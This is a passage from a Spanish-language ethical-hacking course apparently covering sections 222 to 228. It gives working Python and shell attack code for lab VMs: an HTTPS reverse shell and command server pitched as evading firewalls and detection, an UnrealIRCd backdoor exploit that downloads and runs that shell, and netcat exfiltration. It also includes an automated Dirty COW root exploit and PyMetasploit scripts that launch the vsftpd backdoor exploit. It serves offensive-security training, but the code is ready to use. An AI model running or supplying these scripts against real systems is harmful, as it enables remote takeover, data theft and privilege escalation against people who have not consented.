| --------------------------- | --------------------------------------- |
| Aprender scripting          | Entiendes fácilmente comandos complejos |
| Hacer pentesting más fluido | Generas payloads más rápido             |
| Documentar tareas           | Generas explicaciones automáticas       |
| Traducir herramientas       | Bash ↔ Python ↔ PowerShell              |

---

### 📌 Resumen final

- Puedes usar IA (como GPT) para convertir, explicar o generar one-liners.
- Este sistema te ayuda a **automatizar tareas comunes** y mejorar tus scripts.
- Todo esto puede montarse con Python + API + terminal o Flask.
- Funciona en entornos locales de prueba como Kali, Ubuntu, WSL o contenedores Docker.

---

[🔼](#índice)

---

## **222. Shell reversa cifrada (HTTPs) en Python**



### 🧠 ¿Qué es una shell reversa cifrada (HTTPS)?

Una **reverse shell cifrada** es como una shell remota normal, pero:

1. La máquina **víctima (cliente)** se conecta al atacante por HTTPS.
2. El tráfico viaja cifrado con **SSL/TLS** (como cuando visitas un sitio web seguro).
3. El servidor devuelve comandos a ejecutar.
4. La víctima ejecuta los comandos y **envía la salida cifrada** de vuelta al servidor.

🔐 Así nadie puede leer o alterar fácilmente los comandos o resultados en tránsito.

---

### 🧪 ¿Dónde practicar esto?

Puedes probar todo en un **laboratorio local**, por ejemplo:

| Máquina        | Rol               | Sugerencia                       |
| -------------- | ----------------- | -------------------------------- |
| Kali Linux     | Atacante          | Ejecuta el servidor con HTTPS    |
| Ubuntu/Windows | Víctima           | Ejecuta el cliente shell reversa |
| Red            | Interna/Host-only | Para aislarlo de internet        |

---

### 📦 Requisitos

#### 🔧 En ambas máquinas (atacante y víctima):

```bash
pip install requests flask
```

#### 🔐 Crear un certificado SSL autofirmado (para HTTPS)

En la **máquina atacante**, ejecuta:

```bash
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

Esto genera dos archivos:

- `key.pem`: clave privada
- `cert.pem`: certificado autofirmado

---

### 🖥️ Parte 1: Servidor Flask con HTTPS (atacante)

Guarda este archivo como `https_server.py`:

```python
# https_server.py
from flask import Flask, request
import ssl

app = Flask(__name__)

# Comando que se enviará a la víctima
comando_actual = "whoami"

@app.route('/', methods=['GET', 'POST'])
def controlar_shell():
    global comando_actual
    if request.method == 'GET':
        return comando_actual
    elif request.method == 'POST':
        salida = request.data.decode()
        print("[+] Resultado recibido de la víctima:\n", salida)
        return "OK"

@app.route('/set/<cmd>')
def cambiar_comando(cmd):
    global comando_actual
    comando_actual = cmd
    return f"Comando actualizado a: {cmd}"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8443, ssl_context=('cert.pem', 'key.pem'))
```

---

### 🖥️ Parte 2: Cliente Reverse Shell (víctima)

Guarda este archivo como `https_client.py`:

```python
# https_client.py
import requests
import subprocess
import time

server = "https://192.168.1.10:8443"  # Cambia a la IP del atacante
verify_ssl = False  # Ignora certificado autofirmado

while True:
    try:
        r = requests.get(server, verify=verify_ssl)
        comando = r.text.strip()

        if comando.lower() == "exit":
            break

        resultado = subprocess.getoutput(comando)
        print(f"[+] Ejecutando: {comando}")
        requests.post(server, data=resultado.encode(), verify=verify_ssl)

    except Exception as e:
        print(f"[!] Error de conexión: {e}")

    time.sleep(5)
```

> ⚠️ El cliente ignora la verificación SSL para aceptar el certificado autofirmado. En producción, eso es peligroso, pero **en laboratorio es aceptable**.

---

### 🔧 Paso a paso para probarlo

#### 🔹 En la máquina atacante (Kali, por ejemplo):

1. Crea el certificado SSL:

   ```bash
   openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
   ```

2. Ejecuta el servidor:

   ```bash
   python3 https_server.py
   ```

---

#### 🔹 En la máquina víctima:

1. Edita la IP del atacante en `https_client.py`
2. Ejecuta el cliente:

   ```bash
   python3 https_client.py
   ```

---

### 🧪 ¿Cómo interactuar con la shell?

En el **servidor Flask** puedes cambiar el comando desde el navegador o curl:

```bash
curl https://localhost:8443/set/ls -k
```

O desde el navegador:

```
https://localhost:8443/set/ls
```

Y el cliente ejecutará ese comando en la siguiente iteración.

---

### 🎬 Ejemplo de ejecución

#### Servidor:

```
[+] Resultado recibido de la víctima:
kali
```

#### Cliente:

```
[+] Ejecutando: whoami
```

---

### ✅ Ventajas de usar HTTPS

| Ventaja                 | Descripción                      |
| ----------------------- | -------------------------------- |
| 🔐 Cifrado              | Protege comandos y resultados    |
| 🚀 Evade firewalls      | HTTP/HTTPS suele estar permitido |
| 🔍 Difícil de detectar  | Parece tráfico web normal        |
| 🧪 Ideal para practicar | Técnica realista para pruebas    |

---

### 🛑 Consideraciones legales

- ⚠️ **Nunca ejecutes esto fuera de un entorno de prueba.**
- ⚠️ No lo uses en redes reales sin permisos.
- ✅ Ideal para estudiar en plataformas como:

  - TryHackMe (redes virtuales)
  - HackTheBox (laboratorios)
  - VirtualBox/VMware en red privada

---

### 🧠 ¿Quieres mejorar esto?

Puedes:

- Añadir autenticación básica
- Firmar certificados y verificar SSL
- Usar certificados válidos (Let's Encrypt o localmente con CA)
- Implementar con WebSockets para comunicación en tiempo real

---

[🔼](#índice)

---

## **223. Explota la vulnerabilidad UrealIRCd con una Shell cifrada**

### ¿Qué es la vulnerabilidad de UnrealIRCd 3.2.8.1?

**UnrealIRCd 3.2.8.1** descargado desde un **mirror comprometido** en 2009 incluye una **backdoor** (puerta trasera).

##### 🎯 ¿Cómo funciona?

- El servidor escucha normalmente en el puerto 6667 (IRC).
- Si alguien se conecta y le envía una línea como:

```bash
AB;comando_a_ejecutar
```

El servidor ejecuta el comando directamente en el sistema.

✅ ¡Así que podemos enviar cualquier comando remoto!

---

### Laboratorio de estudio

#### 🖥️ Necesitamos 2 máquinas virtuales:

| Máquina                           | Rol      | Descripción                         |
| --------------------------------- | -------- | ----------------------------------- |
| Kali Linux                        | Atacante | Donde enviaremos el exploit         |
| Metasploitable 2 o Ubuntu antiguo | Víctima  | Con UnrealIRCd vulnerable instalado |

#### 📡 Red

Configura ambas en **"red interna" o "host-only"** para que se comuniquen entre sí sin internet.

---

### Instalar UnrealIRCd vulnerable (si no usas Metasploitable)

En una VM de Ubuntu antigua (opcional, ya viene en Metasploitable 2):

```bash
sudo apt update
sudo apt install build-essential -y
wget https://downloads.sourceforge.net/project/unrealircd/Unreal3.2/unreal3.2.8.1.tar.gz
tar -zxvf unreal3.2.8.1.tar.gz
cd Unreal3.2.8.1
./Config  # Acepta todas las opciones por defecto
make
./unreal start
```

✔️ El servidor ahora escucha en el puerto **6667**.

---

### Crear una shell reversa cifrada (HTTPS)

#### 🔐 Paso 1: Crear certificado autofirmado

```bash
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

---

#### 🖥️ Servidor HTTPS (atacante)

Guarda como `https_shell_server.py`:

```python
from flask import Flask, request
import ssl

app = Flask(__name__)
comando_actual = "whoami"

@app.route("/", methods=["GET", "POST"])
def shell():
    global comando_actual
    if request.method == "GET":
        return comando_actual
    else:
        resultado = request.data.decode()
        print("[+] Salida de la víctima:\n", resultado)
        return "OK"

@app.route("/set/<cmd>")
def set_cmd(cmd):
    global comando_actual
    comando_actual = cmd
    return f"Comando actualizado a: {cmd}"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8443, ssl_context=("cert.pem", "key.pem"))
```

Ejecuta con:

```bash
python3 https_shell_server.py
```

---

#### 🖥️ Cliente (víctima) – Shell reversa en Python

Guarda como `https_shell_client.py`:

```python
import requests
import subprocess
import time

server_url = "https://192.168.56.1:8443"  # IP del atacante
verify_ssl = False

while True:
    try:
        comando = requests.get(server_url, verify=verify_ssl).text.strip()
        if comando == "exit":
            break
        salida = subprocess.getoutput(comando)
        requests.post(server_url, data=salida.encode(), verify=verify_ssl)
    except Exception as e:
        print("[!] Error:", e)
    time.sleep(5)
```

---

### Enviar la carga útil con la vulnerabilidad de UnrealIRCd

Ya que podemos ejecutar cualquier comando vía la backdoor, vamos a lanzar el **cliente de shell reversa desde el atacante hacia la víctima**.

---

#### 🔥 Payload final (exploit)

En Kali, crea un comando que envíe `https_shell_client.py` a la víctima y lo ejecute.

#### 🪄 Paso a paso:

1. Crea un servidor HTTP simple para que la víctima descargue el script:

```bash
python3 -m http.server 8000
```

2. Enviar el comando usando la backdoor UnrealIRCd:

```python
import socket

def enviar_payload(target_ip, comando):
    payload = f"AB;{comando}\n"
    s = socket.socket()
    s.connect((target_ip, 6667))
    s.send(payload.encode())
    s.close()

# Comando para descargar y ejecutar el cliente reverse shell
cmd = "wget http://192.168.56.1:8000/https_shell_client.py -O /tmp/a.py; python3 /tmp/a.py"
enviar_payload("192.168.56.102", cmd)
```

> Asegúrate de usar las IP correctas:
>
> - 192.168.56.1 → atacante (Kali)
>
> - 192.168.56.102 → víctima (Metasploitable o VM con UnrealIRCd)

---

### 🎬 Flujo completo

1. Atacante corre:

   - `https_shell_server.py` en puerto 8443
   - `python3 -m http.server 8000` para servir el cliente

2. Víctima tiene UnrealIRCd corriendo en 6667
3. Atacante envía payload vía la backdoor
4. Víctima ejecuta cliente → se conecta a atacante vía HTTPS
5. Atacante controla comandos vía `/set/<comando>`

---

[🔼](#índice)

---

## **224. Transferencia de ficheros con Python: HTTPServer**



### 🧠 ¿Qué es `HTTPServer` en Python?

Python incluye un servidor HTTP básico incorporado que te permite **servir archivos desde cualquier directorio** en segundos. No necesitas instalar nada extra.

> Se usa mucho en **CTFs, pentesting, laboratorios** para compartir scripts, exploits, shells, etc.

---

### ✅ ¿Qué puedes hacer con él?

- Compartir archivos desde tu máquina con otra (bajada de exploits, scripts, binarios).
- Transferir archivos desde la víctima al atacante (y viceversa).
- Servir una web falsa o payload si lo deseas.

---

### 🔧 Requisitos

- Solo necesitas **Python 3**
- Dos máquinas en la **misma red local o laboratorio**:

  - ✅ **Atacante (servidor)**: ejecuta el `HTTPServer`
  - ✅ **Víctima (cliente)**: descarga el archivo desde el servidor

---

### 🧪 Escenario de ejemplo

| Máquina          | Rol      | IP local         |
| ---------------- | -------- | ---------------- |
| Kali Linux       | Atacante | `192.168.56.1`   |
| Metasploitable 2 | Víctima  | `192.168.56.102` |

---

### 📦 Parte 1: Servir archivos con HTTPServer

#### 📁 Paso 1: Moverte al directorio del archivo

```bash
cd /home/kali/scripts/
```

Supón que tienes este archivo:

```bash
ls
reverse_shell_client.py
```

---

#### ▶️ Paso 2: Ejecutar el servidor HTTP

```bash
python3 -m http.server 8000
```

Esto crea un servidor web en el **puerto 8000** sirviendo el contenido de ese directorio.

✔️ Ahora puedes acceder desde otra máquina usando:

```bash
http://192.168.56.1:8000
```

---

### 📥 Parte 2: Descargar archivos desde otra máquina

En la máquina **víctima** (ej: Metasploitable):

```bash
wget http://192.168.56.1:8000/reverse_shell_client.py -O /tmp/shell.py
```

✅ Esto descarga el archivo y lo guarda en `/tmp/shell.py`

---

### 🧪 Ejemplo completo

#### 🔹 En la máquina atacante (Kali):

```bash
cd /home/kali/exploits/
python3 -m http.server 8000
```

Salida:

```
Serving HTTP on 0.0.0.0 port 8000 ...
```

---

#### 🔹 En la máquina víctima (Metasploitable):

```bash
wget http://192.168.56.1:8000/rev.py -O /tmp/a.py
python3 /tmp/a.py
```

✅ Ahora estás ejecutando el script que serviste con HTTP.

---

### 🛠️ Extras útiles

#### Cambiar puerto del servidor:

```bash
python3 -m http.server 9000
```

#### Cambiar la IP de escucha (por defecto escucha en 0.0.0.0)

```bash
python3 -m http.server 8000 --bind 127.0.0.1
```

#### Ver en navegador:

Abre en el navegador:

```
http://192.168.56.1:8000
```

---

### 🧠 ¿Por qué es útil en hacking ético?

Porque puedes:

| Situación           | Ejemplo                                                   |
| ------------------- | --------------------------------------------------------- |
| Subir una shell     | Víctima descarga `reverse_shell.py` desde tu servidor     |
| Compartir exploits  | Enviar scripts desde Kali a máquinas vulnerables          |
| Automatizar         | Hacer que un payload se descargue y ejecute desde una URL |
| Phishing o payloads | Servir HTML, JS o binarios si haces ingeniería social     |

---

### 🔐 Seguridad

Este servidor **no tiene autenticación ni cifrado**. Es perfecto para laboratorios, pero en entornos reales:

- Nunca lo expongas a Internet
- Usa HTTPS si necesitas cifrado (con Flask + SSL)
- Usa autenticación básica si lo necesitas (con `http.server` extendido)

---

### 🔄 Alternativa: Transferencia inversa (víctima → atacante)

En caso de querer **recibir archivos desde la víctima**, puedes usar:

#### En Kali:

```bash
nc -lvp 4444 > archivo.zip
```

#### En la víctima:

```bash
nc 192.168.56.1 4444 < archivo.zip
```

---

### ✅ Resumen

| Acción                       | Comando rápido                   |
| ---------------------------- | -------------------------------- |
| Servir archivos              | `python3 -m http.server 8000`    |
| Descargar desde otra máquina | `wget http://IP:8000/archivo.py` |
| Cambiar puerto               | `python3 -m http.server 9000`    |

---

[🔼](#índice)

---

## **225. Explotación del Kernel y elevación de privilegios con Python**

### 🧠 ¿Qué es la explotación del kernel?

El **kernel** es el núcleo del sistema operativo: controla hardware, procesos, memoria y seguridad. Si una aplicación con bajos privilegios (por ejemplo, un usuario normal) **encuentra una vulnerabilidad en el kernel**, puede aprovecharla para convertirse en **root o SYSTEM** (máxima autoridad en el sistema).

---

### 🎯 ¿Qué es la elevación de privilegios?

Es el proceso de **aumentar los privilegios del usuario actual** (por ejemplo, de "usuario normal" a "root") explotando errores o fallos en el sistema operativo, normalmente a través de:

- Vulnerabilidades del **kernel** (CVE conocidos).
- Archivos SUID mal configurados.
- Permisos de ejecución indebidos.
- Servicios mal protegidos.

---

### 🧪 Entorno de estudio recomendado

| Recurso                  | Uso                               |
| ------------------------ | --------------------------------- |
| Kali Linux               | Máquina atacante                  |
| Metasploitable 2/3       | Máquina vulnerable                |
| Ubuntu 16.04, 18.04      | También contienen CVEs del kernel |
| Red VirtualBox Host-Only | Comunicación segura y aislada     |

---

### ⚙️ Requisitos previos

- Python 3 instalado (ya viene en Kali y Ubuntu)
- Compilador GCC (para compilar exploits si es necesario)
- Acceso inicial como **usuario no root** en la máquina víctima
- Tener identificada una vulnerabilidad del kernel

---

### 📌 CVE de ejemplo: `CVE-2017-16995` (kernel Ubuntu < 4.4.0-116)

Esta vulnerabilidad permite **ejecutar código como root** desde un proceso con privilegios bajos.

---

#### 🔍 Paso 1: Verificar versión del kernel

En la víctima:

```bash
uname -a
```

Ejemplo de salida:

```bash
Linux ubuntu 4.4.0-62-generic #83-Ubuntu SMP ...
```

✅ La versión `4.4.0-62` es vulnerable a `CVE-2017-16995`.

---

#### 🔎 Paso 2: Ver si tienes acceso a Python

```bash
which python3
```

O:

```bash
python3 --version
```

✅ Necesitas Python para ejecutar scripts de exploit o cargar payloads como shells.

---

#### 💣 Paso 3: Descargar un exploit (en entorno controlado)

> Muchos exploits del kernel están escritos en **C**, pero puedes **usarlos desde Python**, automatizar su ejecución o incrustar payloads.

##### Ejemplo: Descargar un exploit público

```bash
wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c -O /tmp/dirty.c
gcc /tmp/dirty.c -o /tmp/dirty -pthread
chmod +x /tmp/dirty
```

##### Pero desde Python, puedes hacer algo como:

```python
import os
os.system("gcc /tmp/dirty.c -o /tmp/dirty -pthread && chmod +x /tmp/dirty")
os.system("/tmp/dirty")  # Ejecuta el exploit
```

---

### 🐍 ¿Cómo se usa Python en la elevación de privilegios?

1. **Automatizar explotación**:

   - Compilar C, ejecutar, limpiar.

2. **Cargar payloads en memoria**

   - Como shells reversas, directamente desde Python.

3. **Validar vulnerabilidades**

   - Usar Python para inspeccionar versiones, configuraciones, permisos, flags SUID.

---

### 🛠️ Ejemplo práctico: Script Python para automatizar Dirty COW (CVE-2016-5195)

#### 🐮 ¿Qué hace Dirty COW?

Permite modificar archivos de solo lectura (como `/etc/passwd`) y crear un usuario root temporal.

#### 📜 Python + C exploit

##### Paso 1: Guarda el siguiente exploit como `dirtycow.py` (automatiza todo)

```python
import os

print("[*] Descargando DirtyCOW...")
os.system("wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c -O /tmp/dirty.c")

print("[*] Compilando exploit...")
os.system("gcc /tmp/dirty.c -o /tmp/dirty -pthread")

print("[*] Ejecutando exploit...")
os.system("/tmp/dirty")

print("[*] Intenta iniciar sesión como usuario 'firefart' con contraseña 'dirtyCowFun'")
```

> 🔑 Este exploit crea un usuario `firefart` con contraseña `dirtyCowFun`.

##### Paso 2: Ejecuta el script

```bash
python3 dirtycow.py
```

##### Paso 3: Inicia sesión con:

```bash
su firefart
# Contraseña: dirtyCowFun
```

✅ ¡Ahora estás como root!

---

### 🧠 ¿Cómo protegerse?

- Mantener el kernel actualizado
- Deshabilitar módulos innecesarios
- Aplicar parches de seguridad (usando `apt update && apt upgrade`)
- Supervisar accesos y permisos

---

### 📦 Python útil en explotación:

| Tarea                      | Cómo lo hace Python                        |
| -------------------------- | ------------------------------------------ |
| Ejecutar payloads          | `os.system()` o `subprocess.getoutput()`   |
| Leer versiones del sistema | `os.uname()`, `platform`, `subprocess`     |
| Automatizar exploits       | Descargar, compilar y ejecutar con código  |
| Cargar código en memoria   | Usar `ctypes`, `mmap` (técnicas avanzadas) |

---

### 🎬 Mini-script para identificar kernel vulnerable

```python
import platform

def check_kernel():
    kernel = platform.uname().release
    print(f"Versión del kernel: {kernel}")

    vulnerable_versions = ["4.4.0-21", "4.4.0-62", "4.8.0-41"]
    if kernel in vulnerable_versions:
        print("⚠️ Este kernel puede ser vulnerable.")
    else:
        print("✔️ Este kernel parece seguro (o desconocido).")

check_kernel()
```

---

### ✅ Resumen general

| Acción                      | Herramienta                        |
| --------------------------- | ---------------------------------- |
| Detectar versión del kernel | `uname -a` o `platform.uname()`    |
| Detectar vulnerabilidad     | Consultar CVEs por versión         |
| Descargar exploit           | `wget`, Python o manual            |
| Ejecutar con Python         | `os.system()` o `subprocess.run()` |
| Elevar privilegios          | Exploit con payload root           |

---

[🔼](#índice)

---

## **226. PyMetasploit: Metasploit con Python**

### 🧠 ¿Qué es PyMetasploit?

**PyMetasploit** es una librería que permite **interactuar con el framework Metasploit (MSF)** a través de su **API RPC (Remote Procedure Call)** usando Python.

Esto significa que puedes:

- Buscar y lanzar exploits.
- Interactuar con sesiones (meterpreter, shell, etc.).
- Automatizar ataques o escaneos.
- Crear herramientas ofensivas personalizadas.

---

### ✅ ¿Cuándo se usa PyMetasploit?

- Cuando quieres automatizar tareas con Metasploit.
- Cuando estás desarrollando tu propio framework.
- Cuando necesitas integrar MSF con otros sistemas Python.
- En **laboratorios de ciberseguridad, scripting y pentesting ético**.

---

### 🔧 Requisitos

| Requisito      | Descripción                                    |
| -------------- | ---------------------------------------------- |
| Kali Linux     | Incluye Metasploit preinstalado                |
| Python 3       | Lenguaje para escribir los scripts             |
| Ruby + MSF RPC | API del framework Metasploit                   |
| PyMetasploit3  | Librería que conecta Python con Metasploit RPC |

---

### 🧪 Entorno de estudio recomendado

| Máquina        | Rol      | Herramientas                    |
| -------------- | -------- | ------------------------------- |
| Kali Linux     | Atacante | Metasploit + Python             |
| Metasploitable | Víctima  | Máquina vulnerable para pruebas |

---

### 🚀 Paso 1: Instalar Metasploit (si no lo tienes)

En Kali ya viene instalado, pero si no lo tienes:

```bash
sudo apt update
sudo apt install metasploit-framework
```

---

### 🚀 Paso 2: Instalar PyMetasploit

Hay varias versiones, pero la más usada actualmente es:

```bash
pip install pymetasploit3
```

✅ Esto instala `pymetasploit3`, que se conecta a la API RPC de Metasploit.

---

### 🚀 Paso 3: Iniciar el servicio Metasploit RPC

Este servicio te permite controlar Metasploit desde fuera, como desde un script Python.

1. Abre Metasploit:

```bash
msfconsole
```

2. Lanza el servicio RPC:

```bash
load msgrpc Pass=123
```

✅ Ahora tienes un **servidor RPC escuchando en localhost**, con contraseña `123`.

> Puedes cambiar el puerto y la IP si lo deseas (por ejemplo para usarlo desde otra máquina).

---

### 🐍 Paso 4: Script básico con PyMetasploit

```python
from pymetasploit3.msfrpc import MsfRpcClient

# Conectarse al servicio RPC
client = MsfRpcClient('123')  # La misma contraseña usada en 'load msgrpc'

# Ver módulos disponibles
exploit = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')
payload = client.modules.use('payload', 'cmd/unix/interact')

# Configurar opciones del exploit
exploit['RHOSTS'] = '192.168.56.102'
exploit['RPORT'] = 21

# Lanza el ataque
print("[*] Ejecutando exploit...")
exploit.execute(payload=payload)
```

✅ Esto lanza el exploit vsftpd contra una máquina víctima vulnerable.

---

### 🧪 Prueba con Metasploitable 2

1. Asegúrate de que Metasploitable tenga el puerto 21 abierto:

```bash
nmap -p 21 192.168.56.102
```

2. Corre tu script Python desde Kali.

3. Mira si Metasploit recibe la sesión.

---

### 🧠 ¿Qué puedes hacer con PyMetasploit?

| Tarea                            | ¿Cómo lo haces?                           |
| -------------------------------- | ----------------------------------------- |
| Lanzar un exploit                | `exploit.execute()`                       |
| Ver sesiones activas             | `client.sessions.list`                    |
| Ejecutar comandos en meterpreter | `session.run_with_output("whoami")`       |
| Listar módulos                   | `client.modules.exploits`                 |
| Automatizar escaneos             | Usar `auxiliary` modules                  |
| Escribir tu propio framework     | Crear una clase que use exploits + lógica |

---

### 📦 Ejemplo más avanzado: obtener sesión y ejecutar comandos

```python
from pymetasploit3.msfrpc import MsfRpcClient
import time

client = MsfRpcClient('123')

# Usamos un exploit con payload
exploit = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')
payload = client.modules.use('payload', 'cmd/unix/interact')
exploit['RHOSTS'] = '192.168.56.102'
exploit['RPORT'] = 21

print("[*] Ejecutando el exploit...")
job_id = exploit.execute(payload=payload)

# Esperamos a que la sesión aparezca
print("[*] Esperando sesión...")
time.sleep(5)

# Mostramos sesiones activas
sessions = client.sessions.list
print(sessions)

# Ejecutamos comandos si hay sesión activa
if sessions:
    sid = list(sessions.keys())[0]
    session = client.sessions.session(sid)
    output = session.run_with_output('whoami')
    print(f"[+] Salida del comando:\n{output}")
```

---

### ⚠️ Seguridad y práctica responsable

- Solo usa Metasploit y PyMetasploit en **entornos de laboratorio**.
- No lances exploits en redes que no te pertenecen.
- Usa máquinas vulnerables como **Metasploitable, TryHackMe, HackTheBox**, etc.

---

### ✅ Resumen

| Componente          | Descripción                        |
| ------------------- | ---------------------------------- |
| `msfconsole`        | Lanza Metasploit                   |
| `load msgrpc`       | Inicia el servicio RPC             |
| `pymetasploit3`     | Librería Python para controlar MSF |
| `exploit.execute()` | Ejecuta un exploit con payload     |
| `client.sessions`   | Accede a las sesiones activas      |

---

[🔼](#índice)

---

## **227. PyMetasploit: Enumeración y filtrado de módulos y exploits**

### 🧠 ¿Qué es la enumeración de módulos en Metasploit?

En Metasploit, los "módulos" son piezas de código que hacen tareas específicas:

- `exploit`: Ataques a sistemas o servicios.
- `auxiliary`: Escáneres, DoS, recopilación de info, etc.
- `post`: Tareas después de la explotación.
- `payload`: Código que se ejecuta después de un exploit (como una shell).
- `encoder`, `nop`, etc.

Con **PyMetasploit**, puedes **listar, filtrar, buscar y analizar** estos módulos desde Python.

---

### ✅ Requisitos previos (resumen rápido)

Asegúrate de tener todo listo:

1. **Instalar PyMetasploit3**:

   ```bash
   pip install pymetasploit3
   ```

2. **Iniciar Metasploit RPC desde msfconsole**:

   ```bash
   msfconsole
   msf6 > load msgrpc Pass=123
   ```

3. **Python 3 y Metasploit Framework instalados** (en Kali Linux ya viene todo).

---

### 🚀 1. Conectarse a Metasploit desde Python

```python
from pymetasploit3.msfrpc import MsfRpcClient

# Contraseña que pusiste en msfconsole con 'load msgrpc Pass=123'
client = MsfRpcClient('123')
```

---

### 📚 2. Listar todos los módulos por tipo

```python
# Listar exploits
exploit_list = client.modules.exploits
print(f"Total de exploits: {len(exploit_list)}")
print("Ejemplo:", exploit_list[:5])  # Mostrar los primeros 5

# Listar payloads
payloads = client.modules.payloads
print(f"\nTotal de payloads: {len(payloads)}")

# Listar auxiliares
aux_list = client.modules.auxiliary
print(f"\nTotal de módulos auxiliary: {len(aux_list)}")
```

#### 🧪 Salida esperada:

```text
Total de exploits: 2100
Ejemplo: ['exploit/unix/ftp/vsftpd_234_backdoor', 'exploit/windows/smb/ms17_010_eternalblue', ...]
```

---

### 🔍 3. Filtrar módulos por palabra clave

Supón que buscas exploits relacionados con **samba**:

```python
samba_exploits = [e for e in client.modules.exploits if 'samba' in e.lower()]
print(f"Exploit que contienen 'samba': {len(samba_exploits)}")
for e in samba_exploits:
    print(f"- {e}")
```

Puedes hacerlo también con `windows`, `ftp`, `web`, etc.

---

### 🧠 4. Mostrar información de un módulo específico

Por ejemplo: `exploit/unix/ftp/vsftpd_234_backdoor`

```python
exploit = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')

print("[*] Información del módulo:")
print(f"Nombre: {exploit.name}")
print(f"Descripción: {exploit.description}")
print(f"Requiere sesión: {exploit.requires_session}")
print(f"Plataforma: {exploit.platform}")
print(f"Tipo: {exploit.type}")

print("\n[*] Opciones disponibles:")
for option, data in exploit.options.items():
    print(f"- {option}: {data['desc']} (Requerido: {data['required']})")
```

---

### 🎯 5. Filtrar exploits por plataforma o tipo de ataque

Por ejemplo: todos los exploits que contengan “windows/smb”

```python
windows_smb_exploits = [
    e for e in client.modules.exploits if 'windows/smb' in e.lower()
]

print(f"Exploits Windows SMB encontrados: {len(windows_smb_exploits)}")
for e in windows_smb_exploits:
    print(f"- {e}")
```

Puedes automatizar búsquedas por:

- Protocolo (ftp, ssh, smb, http…)
- Sistema operativo (windows, linux…)
- CVE (por ejemplo: `cve_2021`)

---

### 🎛️ 6. Crear buscador interactivo

```python
def buscar_exploits(keyword):
    keyword = keyword.lower()
    encontrados = [e for e in client.modules.exploits if keyword in e.lower()]
    print(f"\nExploit con '{keyword}': {len(encontrados)} encontrados")
    for e in encontrados:
        print(f"- {e}")

buscar_exploits("smb")
```

Puedes modificar esto para usar `input()` y crear un menú interactivo de búsqueda.

---

### 🧪 Extra: listar exploits que tengan payloads compatibles

```python
exp = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')
payloads = exp.compatible_payloads
print("Payloads compatibles:")
for p in payloads:
    print(f"- {p}")
```

---

### ✅ BONUS: script completo para enumerar y filtrar exploits

```python
from pymetasploit3.msfrpc import MsfRpcClient

client = MsfRpcClient('123')

def buscar_exploits(palabra):
    resultados = [e for e in client.modules.exploits if palabra in e.lower()]
    print(f"\n🔍 Exploits que contienen '{palabra}':")
    for r in resultados:
        print(f"- {r}")
    print(f"\nTotal encontrados: {len(resultados)}")

def info_exploit(nombre):
    e = client.modules.use('exploit', nombre)
    print(f"\n📌 Información de: {nombre}")
    print(f"Nombre: {e.name}")
    print(f"Descripción: {e.description}")
    print(f"Plataforma: {e.platform}")
    print("\nOpciones requeridas:")
    for opt in e.options:
        print(f"- {opt}")

# Búsqueda por palabra clave
buscar_exploits('ftp')

# Mostrar información detallada de un exploit
info_exploit('unix/ftp/vsftpd_234_backdoor')
```

---

### 📦 ¿Dónde se puede practicar?

- 🧱 **Metasploitable 2**: perfecta para escanear con `ftp`, `smb`, `http`, etc.
- 🧪 **TryHackMe / HackTheBox**: te permiten practicar esto en escenarios guiados.
- 🧠 **Tu propio laboratorio** con VirtualBox o VMware.

---

### 🧠 Conclusión

| Tarea                     | Código usado                      |
| ------------------------- | --------------------------------- |
| Conexión con Metasploit   | `MsfRpcClient('password')`        |
| Listar módulos            | `client.modules.exploits`         |
| Filtrar por palabra clave | List comprehensions               |
| Ver detalles del módulo   | `exploit.description`, `.options` |
| Ver payloads compatibles  | `exploit.compatible_payloads`     |

---

[🔼](#índice)

---

## **228. PyMetasploit: Configuración y ejecución de exploits**

### 🧠 ¿Qué es PyMetasploit?

**PyMetasploit3** es una librería de Python que te permite interactuar con el **Metasploit Framework** mediante su **API RPC**. Es ideal para automatizar tareas de seguridad ofensiva como:

- Búsqueda y configuración de exploits.
- Ejecución de payloads.
- Gestión de sesiones meterpreter/shell.
- Automatización de pruebas de penetración.

---

### 🎯 Objetivo de hoy

Vamos a ver **paso a paso cómo:**

1. Instalar PyMetasploit3 y configurar el entorno.
2. Conectarse al Metasploit RPC.
3. Cargar un exploit.
4. Configurar sus parámetros.
5. Seleccionar un payload compatible.
6. Ejecutar el exploit.
7. Verificar si se abre una sesión.

---

### ✅ Entorno de estudio recomendado

| Máquina         | Rol      | SO           | Herramientas          |
| --------------- | -------- | ------------ | --------------------- |
| Kali Linux      | Atacante | Linux        | Python, Metasploit    |
| Metasploitable2 | Víctima  | Linux Ubuntu | Servicios vulnerables |

> Puedes usar VirtualBox o VMware para crear este laboratorio.

---

### 🔧 Paso 1: Instalación del entorno

#### ▶️ Instala Metasploit (si usas otra distro distinta a Kali)

```bash
sudo apt update
sudo apt install metasploit-framework
```

#### ▶️ Instala PyMetasploit3

```bash
pip install pymetasploit3
```

---

### 🚀 Paso 2: Iniciar Metasploit RPC

Desde una terminal, abre Metasploit con:

```bash
msfconsole
```

Y dentro de `msfconsole` ejecuta:

```bash
load msgrpc Pass=123
```

Esto carga el servicio RPC de Metasploit con la contraseña `123`.

> Este paso es obligatorio para que PyMetasploit se pueda conectar.

---

### 🔗 Paso 3: Conectarse desde Python

```python
from pymetasploit3.msfrpc import MsfRpcClient

# Conéctate usando la contraseña que definiste (123)
client = MsfRpcClient('123')
```

✅ Si no da error, estás conectado.

---

### 🎯 Paso 4: Cargar un exploit

Vamos a usar el famoso exploit:

```
unix/ftp/vsftpd_234_backdoor
```

```python
exploit = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')
```

---

### 🔧 Paso 5: Ver y configurar opciones del exploit

```python
print("Opciones del exploit:")
for option, info in exploit.options.items():
    print(f"- {option}: {info['desc']} (Requerido: {info['required']})")
```

#### Configurar opciones necesarias:

```python
exploit['RHOSTS'] = '192.168.56.102'  # IP de tu víctima Metasploitable
exploit['RPORT'] = 21                # Puerto FTP vulnerable
```

---

